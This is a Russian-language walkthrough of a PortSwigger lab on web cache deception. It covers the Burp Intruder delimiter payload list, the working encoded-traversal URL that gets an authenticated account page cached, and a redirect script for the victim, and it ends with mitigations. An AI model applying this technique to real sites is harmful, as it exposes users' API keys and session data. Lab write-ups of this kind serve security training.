



++ доп теория
### Использование нормализации кэш-сервером
например кеш сервер может разрешать кодировать /../ а исходный сервак -нет
можно использовать такую структуру

```
/<dynamic-path>%2f%2e%2e%2f<static-directory-prefix> 
```
тогда сам сервер данных прочтет статический файл, а кеш сервер увидит эту строчку как она есть и прочтет в ней dynamic и решит кешировать запрос.

например:
оригинал   /profile%2f%2e%2e%2fstatic
- Кэш интерпретирует путь следующим же путем:    `/static`
- Исходный сервер интерпретирует путь как :           `/profile%2f%2e%2e%2fstatic` (сервер может вернуть ошибку) поэтому - можно пробовать использовать разделители /profile;%2f%2e%2e%2fstatic
- тогда сервер данных обрежет путь после /profile, а кеш сервер прочтет дальше у наткнется на расширение которое он-например-сохраняет

лаба 
https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-cache-server-normalization

задание   find the API key for the user `carlos`
мой акк     wiener:peter

-----


исход запрос который возвращает апи (как в предыдущих лабах)
задача, заставить кеш сервер кешировать этот ответ
тогда если отправить ссылку жертве, и если жертва перейдет - то ее апи попадет в кеш
и если я перейду по этой же ссылке тоже - тогда получится забрать ее кеш!




-----
79296026332


запустил интрудер с пейлоадом 

```"%21",
"%22",
"%23",
"%24",
"%25",
"%26",
"%27",
"%28",
"%29",
"%2A",
"%2B",
"%2C",
"%2D",
"%2E",
"%2F",
"%3A",
"%3B",
"%3C",
"%3D",
"%3E",
"%3F",
"%40",
"%5B",
"%5C",
"%5D",
"%5E",
"%5F",
"%60",
"%7B",
"%7C",
"%7D",
"%7E",
"%20",
"%09",
"%0A",
"%0D",
"%00"
----------------
"!",
"",
"#",
"$",
"%",
"&",
"'",
"(",
")",
"*",
"+",
",",
"-",
".",
"/",
":",
";",
"<",
"=",
">",
"?",
"@",
"[",
"\\",
"]",
"^",
"_",
"`",
"{",
"|",
"}",
"~",
" ",
"	",
"?",
"\0"
```

результаты:

на эти нагрузки: ответ 200 : остальные ответы 400 или 404

```
GET /my-account%2F    ответ 200   
GET /my-account/      ответ 200 
GET /my-account%23    ответ 200 
GET /my-account%3F    ответ 200 
GET /my-account#      ответ 200 
GET /my-account?      ответ 200 

итого пропускает символы:
 ? # /   и эти же символы но в url кодировке
 
 ------
 эти символы обрезают путь для исход сервера, и сервер этот после этих символов не читает путь , это хорошо, 
 теперь нужно как-то сохранив такие ответы от сервера заставить кеш сервер сохранять страницу!
```


```http
GET /my-account    ориг запрос  ответ 200 - 3974 б
-------
GET /my-account#sss     ответ 200 - 3974 б
GET /my-account#js
GET /my-account#.js
и другие варинты расширений в этом месте не влияют на ответ

в запросе есть Cache-Control: max-age=0

---
 ? # /   и эти же символы но в url кодировке
 
 ------
 эти символы обрезают путь для исход сервера, и сервер этот после этих символов не читает путь , это хорошо, 
 теперь нужно как-то сохранив такие ответы от сервера заставить кеш сервер сохранять страницу!
 
 -----
 
 идея: 
 
GET /my-account%23 вот тут пытаться найти что-то что кеш сервер читает как расширение

нашел такие запросы которые скорее всего кешируются,
так как запросы не часто меняются!

GET /favicon.ico             возвращает иконку сайта
GET /resources/css/labs.css  возвращает коды стр разметки  GET /post?postId=9           возвращает пост 
GET /image/blog/posts/1.jpg  возвращает картинки постов
GET /resources/images/avatarDefault.svg    картинка  
----

GET /my-account%23/favicon.ico  нет, 200 на 3974 б как ориг
GET /my-account%23/resources/css/labs.css  200 на 3974
GET /my-account%23/post?postId=9           200 на 3974
GET /my-account%23/image/blog/posts/1.jpg   200 на 3974
GET /my-account?postId=9    200 на 3974
GET /my-account?/resources/images/avatarDefault.svg HTTP/2

перепробовал все конмбинации из путей - что выше

и попал в одной из них!

GET /my-account#%2f%2e%2e%2fresources/css/labs.css HTTP/2
то есть
GET /my-account#/../resources/css/labs.css HTTP/2 
ОТВЕТ 200 на 4024 байта
+
Cache-Control: max-age=30
Age: 0
X-Cache: miss
победа!! ВОСТОРГ!))

я использовал # которую нашел через интрудер, решетка для сервера образела путь дальнейший

я использовал %2f%2e%2e%2f для указания пути
видимо кеш сервер успешно читает %2f%2e%2e%2f в /../

далее я подставил запрос resources/css/labs.css
который возвращает просто код разметки стр

соеденил 
GET /my-account#%2f%2e%2e%2fresources/css/labs.css

и ответ
Cache-Control: max-age=30
Age: 3
X-Cache: hit
Content-Length: 3866
 страница закешировалась, хотя в ней есть API секрет

```

теперь дело за малым!
нужно просто доставить эту ссылку жертве
отследить когда жертва перейдет по ссылке
и в течении 30 сек тоже перейти по этой же ссылке
и украсть api ключ

---------------
сформировал ссылку из запроса

https://0a41003404e1239d802012cc006000ee.web-security-academy.net/my-account%23%2f%2e%2e%2fresources/css/labs.css




далее на свой подставной сайт добавил
изи скрипт 

```js

<script>document.location="https://0a41003404e1239d802012cc006000ee.web-security-academy.net/my-account%23%2f%2e%2e%2fresources/css/labs.css"</script>

-----------

пришлось подменить # на %23 так как иначе в кеш сохранялась именно страница /css/labs.css
а не /my-account

```

заставил жертву перейти по ссылке на мой сайт
попав на мой сайт у жертвы выполнился переход по ссылке на мой запрос
и кеш CND сохранил страницу в кеш!

и я перейдя тут же по этой же ссылке - получил копию страницы! и получил апи жертвы
лаба решена




# ### **Как предотвратить Web Cache Deception (WCD)**

Уязвимость сработала, потому что система нарушила базовый принцип: **"Если ответ зависит от авторизации пользователя (сессии, кук), его нельзя кэшировать для общего доступа (`public`)"**.
---


# **Что делать** чтобы избежать таких уяз ?
# 1=
бекенд
сервер должен четко валидировать директории. и если путь не соответствует разрешенному - тогда **404 Not Found**
не игнорировать окончание путей и расширения
# 2=
бекенд
**Жёстко контролировать заголовки `Cache-Control`**
всегда отправлять:  Cache-Control: private, no-store, max-age=0`
Явно запрещает любым промежуточным кэшам (CDN) сохранять этот ответ!
# 3= 
со стороны **Администратор (CDN/Прокси)**
Запретить переопределять `private` и `no-store`.
Четко подчиняться  Cache-Control
# 4= 
со стороны **Администратор (CDN/Прокси)**
**Настроить кэширование по Content-Type ответа, а не по расширению в URL.**
Устраняет слепое доверие к пути в URL. Если сервер ошибочно отдал `text/html` по пути `.css`, такой ответ не будет закэширован
# 5= 
со стороны **Администратор (CDN/Прокси)**
**Использовать заголовок `Vary`.**Принудительно добавлять `Vary: Cookie, Authorization`для всех ответов от защищённых областей.
Гарантирует, что для каждого уникального значения Cookie будет создана отдельная кэш-запись.
 **это несоответствие ключа кэша**: Кэш  формировал ключ на основе **полного URL**(включая `;.js`), но **не учитывал заголовки авторизации** (Cookie). Это привело к тому, что ответ пользователя A стал доступен пользователю B.

-----


